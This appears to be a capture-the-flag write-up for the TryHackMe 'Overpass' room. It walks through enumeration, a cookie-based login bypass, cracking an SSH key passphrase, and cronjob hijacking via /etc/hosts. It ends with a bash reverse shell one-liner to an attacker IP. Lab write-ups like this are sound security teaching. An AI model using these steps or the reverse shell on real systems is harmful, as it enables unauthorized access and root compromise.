 # Overpass Writeup

![bannner](/thm/images/overpass/banner.png)

Writeup for room - [Overpass](https://tryhackme.com/room/overpass)

## Scanning and Enumeration

Let's start with an nmap scan.

```
nmap <IP> -sV -sC -T4 -p-
```

![nmap scan](/thm/images/overpass/nmap.png)

We find 2 open ports, let's check port 80.

![homepage](/thm/images/overpass/homepage.png)

After looking through the pages and source code we really can't find anything that interesting. Let's check for hidden directories with gobuster.

![gobuster](/thm/images/overpass/gobuster.png)

Seems like there's an admin page.

![admin](/thm/images/overpass/admin.png)

We can't seem to get in with default credentials so we could try a bruteforce with hydra but the hints say we have to look at OWASP top 10.
When inspecting the source code we find a login.js so let's check that out.

![login](/thm/images/overpass/loginjs.png)

This functions is interesting because it tells us there's a cookie being used called "SessionToken".

![loginfunc](/thm/images/overpass/loginfunc.png)

Perhaps we can give this cookie a random value and it will let us in?

![cookie](/thm/images/overpass/sessioncookie.png)

Reload the page and we find a private ssh key for user james.

![sshkey](/thm/images/overpass/sshkey.png)

When we try to login with this private key we're asked for a passphrase so lets use john to crack it.
First we convert with ssh2john.py and then we crack it with the rockyou wordlist.

![john](/thm/images/overpass/john.png)

We cracked the passphrase, now we try again.
Don't forget to change the file permissions to 600 or ssh will complain.

![ssh](/thm/images/overpass/ssh.png)

## Privilege escalation

We're in! The user flag is the usual location and should be easy to find. Let's to try escalate our privilege.

sudo -l does not give us anything.
Perhaps there's an interesting file with SUID permission?

![suid](/thm/images/overpass/suid.png)

Again nothing we can use.

Let's check if we can exploit a cronjob.

![cronjob](/thm/images/overpass/cronjobs.png)

We can see there's a buildscript.sh run from overpass.thm/downloads/src. If we can edit /etc/hosts I can set overpass.thm to my IP and get root privilege with a reverse shell.

First we edit /etc/hosts and put our own IP in.
![etchosts](/thm/images/overpass/etchosts.png)

Then we go back our own machine and create the exact same folders: downloads/src

```
mkdir -p downloads/src
```
Create a buildscript.sh in the src folder and put the reverse shell in there

```
bash -i >& /dev/tcp/<your_ip>/4444 0>&1
```
